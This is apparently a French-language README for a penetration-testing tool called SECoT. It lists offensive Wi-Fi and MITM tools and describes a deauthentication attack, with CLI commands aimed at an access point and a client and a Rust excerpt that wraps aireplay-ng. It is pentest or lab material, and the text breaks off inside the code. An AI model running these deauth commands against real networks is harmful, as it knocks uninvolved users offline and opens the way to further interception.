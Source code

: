 ## Outils et Frameworks Sécurité

### Outils de Test de Pénétration
- Aircrack-ng : Suite complète pour analyser et attaquer les réseaux Wi-Fi
- Wireshark : Analyseur de paquets pour l'inspection détaillée du trafic
- Ettercap / MITMf : Outils pour les attaques Man-in-the-Middle
- Hydra / John the Ripper : Logiciels de craquage de mots de passe

### Technologies Web
- React + Vite pour le frontend
  - React 18
  - Vite 4.x
  - Material-UI
- Flask pour le backend
  - Python 3.9+
  - Flask 2.x
  - SQLAlchemy
- MQTT pour la communication IoT
  - Mosquitto Broker
  - Paho MQTT Client
- TLS pour le chiffrement
  - OpenSSL
  - Certificats auto-signés

# Phase 1 : Stratégie de Compromission Réseau

## Attaque de Dé-authentification Initiale

### Principe
En envoyant des trames de dé-authentification massivement, tous les appareils connectés à un réseau cible sont brutalement déconnectés. Cette technique force les clients à rechercher de nouveau un point d'accès.

### Technique
```bash
# Commande pour lancer l'attaque de dé-authentification
SECoT deauth --interface wlan0 --ap-bssid "00:11:22:33:44:55" --packets 100

# Pour cibler un client spécifique
SECoT deauth --interface wlan0 --ap-bssid "00:11:22:33:44:55" --client-mac "AA:BB:CC:DD:EE:FF" --packets 100
```

### Code Source de l'Attaque
```rust
// Extrait de SECoT_CLI_Tool/src/attack_modules/wifi_deauth.rs
pub async fn run_deauth_attack(interface: &str, ap_bssid: &str, client_mac: Option<&str>, packets: u32) -> Result<(), Box<dyn std::error::Error>> {
    let mut aireplay_command = Command::new("aireplay-ng");
    aireplay_command
        .arg("--deauth")
        .arg(packets.to_string())
        .arg("-a").arg(ap_bssid)
        .arg(interface);

    if let Some(client) = client_mac {
        aireplay_command.arg("-c").arg(client);
    }

    let output = aireplay_command.output().await?;
```